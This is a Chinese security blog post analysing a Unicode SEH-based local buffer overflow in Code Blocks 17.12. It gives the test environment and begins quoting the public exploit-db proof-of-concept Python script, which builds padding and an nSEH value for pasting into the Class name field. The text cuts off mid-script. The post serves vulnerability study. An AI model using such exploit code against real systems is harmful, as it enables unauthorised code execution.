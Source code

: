 > 原文链接: https://www.anquanke.com//post/id/170028 


# Code Blocks 17.12 Local Buffer Overflow分析


                                阅读量   
                                **173663**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p3.ssl.qhimg.com/t017d2ca407bc567679.png)](https://p3.ssl.qhimg.com/t017d2ca407bc567679.png)

近期在逛`exploit-db`时发现`Code Blocks 17.12`存在溢出，所以顺手就分析了一下。这个洞比较特别，是基于`unicode`数据格式的溢出，不多见。

## 环境

环境准备

```
codeblocks下载：https://www.exploit-db.com/apps/00de2366edbc44fa0006765896aa1718-codeblocks-17.12-setup.exe
windows 7 x86 sp1
Windows Debugger Version 6.11.0001.404 X86
```

explit-db提供的exp

```
#!/usr/bin/python

#
# Exploit Author: bzyo
# Twitter: @bzyo_
# Exploit Title:  Code Blocks 17.12 - Local Buffer Overflow (SEH)(Unicode)
# Date: 01-10-2019
# Vulnerable Software: Code Blocks 17.12
# Vendor Homepage: http://www.codeblocks.org/
# Version: 17.12
# Software Link:
# http://sourceforge.net/projects/codeblocks/files/Binaries/17.12/Windows/codeblocks-17.12-setup.exe
# Tested Windows 7 SP1 x86
#
#
# PoC
# 1. generate codeblocks.txt, copy contents to clipboard
# 2. open cold blocks app
# 3. select File, New, Class
# 4. paste contents from clipboard into Class name
# 5. select Create
# 6. pop calc
#

filename = "codeblocks.txt"


junk = "A"*1982


nseh = "x61x62"
```